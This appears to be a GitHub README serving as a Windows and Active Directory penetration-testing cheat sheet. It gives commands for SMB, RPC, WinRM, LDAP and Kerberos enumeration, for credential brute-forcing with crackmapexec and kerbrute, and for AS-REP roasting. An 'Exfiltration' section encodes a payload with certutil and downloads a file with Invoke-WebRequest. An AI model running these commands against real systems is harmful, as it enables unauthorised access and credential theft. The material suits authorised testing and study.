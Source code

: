<img height="100px" src="https://user-images.githubusercontent.com/28403617/172732896-97a2e867-7e5a-473d-afd4-c00a0378b7ac.svg#gh-light-mode-only" />
<img height="100px" src="https://user-images.githubusercontent.com/28403617/172732894-5a754b66-c657-4830-8a88-6f7d6b0956da.svg#gh-dark-mode-only" />

---

- [DMP File](#dmp-file)
- [Exfiltration](#exfiltration)
- [Kerberos](#kerberos)
- [MSRPC](#msrpc)
- [Ldap](#ldap)
- [Samba](#samba)
- [Virus](#virus)
- [WinRM](#winrm)

# Enumeration
## Scripts
### Winpeas
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -O
```

# Samba
*Port: 445*

### List Directories
```bash
smbclient  --no-pass -L //ip//
smbclient -U user -L //ip//
```

### Connect
```bash
smbclient "\\\\DOMAIN\\SHARENAME" --no-pass
smbclient  "\\\\DOMAIN\\SHARENAME" -u USER -p PASSWORD
```

### SmbMap
```bash
smbmap -H ip -u anonymous
smbmap -u user -p pass -H ip
```

### Bruteforce
```bash
crackmapexec smb ip -u users.txt -p password.txt
```

# MSRPC
*Port: 135*

### Connect
```bash
rpcclient ip -U user -L -h
```

### Source
- [Different Outils](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

# WinRM
*Port: 5985*

### Connect
```bash
evil-winrm -i ip -u user -p password
```

# DMP File
### Extract
```bash
Foremost file.dmp
```

# Kerberos
*Port: 88*

Kerberos is an authentication protocol that is used to verify the identity of a user or host.

### Bruteforce User
```bash
kerbrute userenum -d domain --dc ip user.txt
```

### Get user ticket
Checking if Kerberos pre-authentication has been disabled for accounts
```
GetNPUsers.py -usersfile user.txt -no-pass -format hashcat -dc-ip ip domain
```

- [Kerberos cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

# Ldap
*Port: 389, 636*

### Nmap
```
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
```

# Exfiltration
### Certificate
```cmd
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

### Download file
```powershell
Invoke-WebRequest -Uri http://example.com -OutFile file.out
```

# Virus
### Cobalt Strike
- [Cobalt Strike: Using Known Private Keys To Decrypt Traffic – Part 1](https://blog.nviso.eu/2021/10/21/cobalt-strike-using-known-private-keys-to-decrypt-traffic-part-1/)
- [Cobalt Strike: Using Known Private Keys To Decrypt Traffic – Part 2](https://blog.nviso.eu/2021/10/27/cobalt-strike-using-known-private-keys-to-decrypt-traffic-part-2/)
- [Cobalt Strike: Using Process Memory To Decrypt Traffic – Part 3](https://blog.nviso.eu/2021/11/03/cobalt-strike-using-process-memory-to-decrypt-traffic-part-3/)
